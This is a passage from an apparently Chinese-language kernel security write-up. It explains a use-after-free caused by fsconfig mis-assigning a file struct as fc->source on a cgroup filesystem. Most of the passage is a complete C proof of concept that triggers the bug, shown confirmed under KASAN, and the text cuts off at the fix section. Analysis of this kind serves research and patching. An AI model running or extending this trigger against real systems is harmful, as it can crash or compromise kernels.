 释放`fc`结构体的时候，同时还会释放其`source`指针指向的`obj`。而由于`source`在`fsconfig`过程中由于变量混淆被错误赋值为`file`结构体指针，这就导致了正在使用的`file`结构体的`UAF`。

### POC

我们编译一个带有`KASAN`的内核（开启`CONFIG_KASAN`保护即可），并使用如下`exp`：

```c
#include "ltfallkernel.h"


int main()
{   
    unshare_setup(); // 创建命名空间，否则无法打开文件系统

    // 切换到tmp目录，创建一个文件作为victim
    system("cd /tmp; touch vuln; chmod 666 vuln;");

    // 使用 fsopen 打开一个文件系统，获得文件系统描述符
    int fs_fd = syscall(__NR_fsopen, "cgroup", 0);
    if (fs_fd < 0)
    {
        err_exit("popen failed");
    }

    // 打开victim文件
    int uaf_fd = open("/tmp/vuln", 1);
    if (uaf_fd < 0)
    {
        err_exit("failed open victim file.");
    }

    // 调用fsconfig，走FSCONFIG_SET_FD，其值为5
    // 存在漏洞导致fc->source = victim的file结构体
    if (syscall(__NR_fsconfig, fs_fd, 5, "source", 0, uaf_fd))
    {
        err_exit("fsconfig");
    }

    close(fs_fd); // 关闭fs_fd时，会同时关闭uaf_fd造成uaf

    return 0;
}
```

编译，并在开启了`kasan`的环境下运行：

![image-20250312161735345](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/imagesimage-20250312161735345.png)

可以看到触发了`UAF`。

### 修复

